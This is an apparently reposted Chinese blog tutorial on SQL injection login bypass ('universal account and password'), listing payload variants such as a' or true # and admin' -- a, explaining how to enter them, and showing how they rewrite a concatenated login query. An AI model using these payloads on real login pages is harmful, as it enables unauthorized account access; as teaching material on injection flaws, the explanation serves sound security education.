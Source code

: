 
--- 
title:  万能账号密码使用详解，黑客常用的入门级操作 
tags: []
categories: [] 

---
## **一、什么是万能账号密码**

>  
  我们平时登录账号时，如果是第一次登录，系统会提示我们注册账号，并将我们注册的账号和密码保存到数据库中。当我们再次登录时，系统会将我们输入的账号和密码和数据库中的数据进行匹配，匹配成功能登录。这就意味着我们需要知道一个已经注册过并且正确的账号和密码才能进行登录，那如果我不小心忘记了我的账号或者密码，或者我压根就不知道账号和密码，还有没有办法登录呢？答案是肯定的，那就是 【万能账号密码】 
  万能账号密码是指 【万能账号】和 【万能密码】，顾名思义，就是可以 【登录任意网站】的账号和密码 
 

<img src="https://img-blog.csdnimg.cn/img_convert/c5f49f90418aa97dbbae591ba1b10225.png" alt="c5f49f90418aa97dbbae591ba1b10225.png">

#### 

### **1、万能账号**

>  
  当我们不知道用户的账号并且不知道用户的密码时，可以使用万能账号。 
  万能账号并不是一个真正意义上的账号，它是一种【拥有不同变体的格式】需要注意的是，以下所有万能账号中的 a 可以是自定义的数字或字母，比如 1，2，3，b，c，d 
 

**【数值型万能账号】**
1. a or true #1. a or 1 #1. a or 1=1 #1. a or true -- a1. a or 1 -- a1. a or 1=1 -- a
**【单引号字符型万能密码】**
1. a' or true #1. a' or 1 #1. a' or 1=1 #1. a' or true --a1. a' or 1 -- a1. a' or 1=1 -- a
**【双引号字符型万能密码】**
1. a" or true #1. a" or 1 #1. a" or 1=1 #1. a" or true -- a1. a" or 1 -- a1. a" or 1=1 -- a
#### 

#### **1.1 万能账号的使用**
- 账号输入 【万能账号】， 比如 a or true #- 密码随便输入，比如 123456
### ****

### **2、万能密码**

>  
  当我们知道用户的账号，但不知道用户的密码时，可以使用万能密码 
  万能密码并不是一个真正意义上的密码，而是一个【拥有不同变体的格式】需要注意的是：万能密码中的 admin，必须是真实的用户名 
 

**【数值型万能密码】**
1. admin #1. admin -- a
【单引号字符串型万能密码】
1. admin' #1. admin' -- a
【双引号字符串型万能密码】
1. admin” #1. admin" -- a
#### 

#### **2.1 万能密码的使用**
- 用户名输入 【万能密码】，比如 admin’ #- 密码随便输入，比如 123456
## 

## **三、万能账号密码原理剖析**

一个网络安全意识淡薄的网站，其登录功能的SQL语句大概是下面这个样子

```
select * from user where username='user' and password='pass'
```

#### 

### **1、万能账号原理**

当我们在登录界面输入 【万能账号】比如 a’ or true # 以后，后端会将我们输入的参数拼接到SQL中，然后去数据库中查询账号和密码，SQL语句大概是下面这样

```
select * from user where username='a' or true #' and password='pass'
```

由于 # 在SQL中是注释符，注释符后面的内容不起作用，所以真正执行的SQL语句大概是下面这样

```
select * from user where username='a' or true
```

or true 会使SQL语句恒成立，从而查询出数据库中的所有账号和密码，从而使我们成功登录

#### **1.1 注释符**

除了 # 以外， -- 也是SQL中的注释符，但SQL的语法格式规定--和后面的注释内容必须间隔一个空格，所以这需要使用 a' or 1 -- a 而不是 a' or 1 -- 其原理和 a’ or 1 # 大同小异，拼接到SQL中大概是下面这样

```
select * from user where username='a' or true -- a' and password='pass'
```

注释后面的内容不生效，真正执行的SQL大概是下面这样

```
select * from user where username='a' or true
```

SQL语句恒成立，从而登录成功

换句话来说，a' or true -- a经过SQL的转化后，结果等价于 a’ or true #

#### 

#### **1.2 比较运算符**

SQL中规定，非布尔类型的数据参与比较运算时，会转化为布尔类型再参与运算。比如 or 1 或者 or 1=1 ，会转化为布尔类型的 true 再参与 or 的比较运算，也就是变成 or true ，同样能使条件恒成立，从而登录成功

简单来讲就是：a' or 1 # 或者 a' or 1=1 # 等价于 a' or true #

### **2、万能密码原理**

当我们在登录界面输入 【万能密码】 比如 admin’ # 以后，后端会将我们输入的参数拼接到SQL中，大概是下面这样

```
select * from user where username='admin' #' and password='pass'
```

由于 # 在SQL中是注释符，注释符后面的内容不起作用，所以真正执行的SQL大概是下面这样

```
select * from user where username='admin'
```

SQL只会在数据库中查询用户名，而不是同时查询用户名和密码，这就意味着，只要用户名正确，就可以登录成功

#### **3.1 注释符**

除了 # ，-- 在SQL中也是注释符，SQL的语法格式规定 --后面必须使用空格来间隔后面的注释内容，所以需要将 --写作 -- a,后面的 a 可以是任意数字或者字母

简单来件就是 admin’ – a 等价于 admin‘ #

## **总结**

>  
  【万能账号密码】适用于网络安全意识较差的网站，如果发现了可以使用的网站，切勿进行下一步操作，动歪脑筋的同学请在心理默念三遍：【我国有一部完整且历史悠久的法律】 
 

来源：blog.csdn.net/wangyuxiang946/article/details/120604024

**<strong><img src="https://img-blog.csdnimg.cn/img_convert/b4ad074305b567811fefb8a09054869a.png" alt="b4ad074305b567811fefb8a09054869a.png"> **</strong>**<strong>阅读更多**</strong>
- - - - - - - - 
<img src="https://img-blog.csdnimg.cn/img_convert/38ecda0d25857629fc5faf2be40bb9e2.gif" alt="38ecda0d25857629fc5faf2be40bb9e2.gif">
